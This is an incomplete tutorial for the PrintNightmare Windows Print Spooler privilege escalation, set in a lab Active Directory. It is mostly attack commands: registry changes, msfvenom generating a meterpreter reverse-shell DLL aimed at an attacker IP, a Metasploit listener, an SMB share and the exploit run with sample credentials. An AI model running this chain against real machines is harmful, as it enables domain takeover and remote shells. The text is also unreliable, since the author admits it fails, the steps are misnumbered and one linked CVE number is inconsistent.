





PrintNightmare (CVE-2021-34527)
WARNING: TUTORIAL TO BE COMPLETED
Something is not working, i have not got a SYSTEM shell at the
endPrerequisites:• Username and password of a non administrative
user
• PrintSpooler service active and not patched on the Windows machine
This is a Privilege
Escalation attack to become Domain Admin of the Active Directory
A remote code execution vulnerability exists
when the
Windows Print Spooler service improperly performs
privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with
SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts
with full user rights.
Exploit RCE•
https://github.com/cube0x0/CVE-2021-16750.
Setup LAB
On the Domain Controller of the Active Directory
reg add "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 0 /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /v NoWarningNoElevationOnInstall /t REG_DWORD /d 1
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

reg add “HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers” /v RegisterSpoolerRemoteRpcEndPoint /t REG_DWORD /d 1
1. Check if the environment is vulnerable
To do that we need installed impacket or we can
use the version of cube0x0 (author of the exploit) here:
https://github.com/cube0x0/impacket
locate rpcdump.py
rpcdump.py @[IP_address_domain_controller] | egrep 'MS-RPRN|MS-PAR'
2. Clone the cube0x0
repository if you already do not have done it yet
git clone https://github.com/cube0x0/CVE-2021-1675.git
cd CVE-2021-1675
4. Generate malicious DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[attackerIP] LPORT=5555 -f dll > shell.dll
Note: if we have access to the domain controller like
in the lab scenario we can know the OS architeture(32 or 64 bit) with “wmic os get osarchitecture”
3.
Open a new windows on the Attacker machine and set the listener on the Attacker machine
$ msfconsole
msf> use multi/handler
msf> options
msf> set payload windows/x64/meterpreter/reverse_tcp
msf> set lport 5555
msf> set lhost [attackerIP]
msf> run
4. Set up on the Attacker machine SMB File Sharing of the folder containg the malicious DLL created
before with msfvenom
locate smbserver.py
smbserver.py share 'pwd' -smb2support
6. Run the attack
python3 CVE-2021-1675.py daniele/pparker:Password1@192.168.147.196 '\\192.168.147.139\share\shell.dll'
 Mitigation•
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527